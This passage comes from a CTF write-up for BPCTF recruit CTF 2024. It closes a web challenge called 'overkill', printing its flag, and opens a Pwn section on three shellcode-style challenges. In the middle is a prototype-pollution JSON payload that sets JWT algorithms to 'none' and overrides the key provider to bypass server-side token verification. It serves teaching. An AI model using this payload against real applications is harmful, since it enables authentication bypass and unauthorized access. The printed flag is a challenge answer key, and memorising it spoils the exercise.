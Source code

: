 ![Flag](./images/bpctf-recruitctf-2024/web-overkill-2.png)

**Flag**

`BPCTF{1TS_nOt_A_Bu6_ltS_a_1e4tUrE_734210e6ce37}`

**P/S:**

I mentioned about 2 possible attacks for this problem, the attack that disables server-side JWT verification is possible and was actually my first way, but it's more complicated and harder to do than the first one.

Here's the demo payload for the 2nd approach if you want to learn how it works, have fun figuring out why it works :)
```js
{
	username: {
		"sus": "no",
		"__proto__.secretOrKeyProvider": "[Circular (username.__lookupGetter__)]",
		"__proto__.algorithms": ["none"],
		"__proto__.algorithm": "none",
		"__proto__.alg": "none",
		// "__proto__.isValid": "[Circular (username.constructor)]",
	},
	password: "any"
}
```

Read [this appendix](#web-overkill---2nd-approach) if you are still confused about this payload
## Pwn
**Note:** All 3 challenges (gofintro, canaryintro and pieintro) are using the same attack script but with different parameters, so on those 3 sections I will only mention the parameters and will post the code later in this section.

![3 challenge codes](./images/bpctf-recruitctf-2024/pwn-general.png)

And win function for all challenges in this category are the same, is to give remote shell execution (as shown in decompiled binaries in IDA Freeware 8.2)
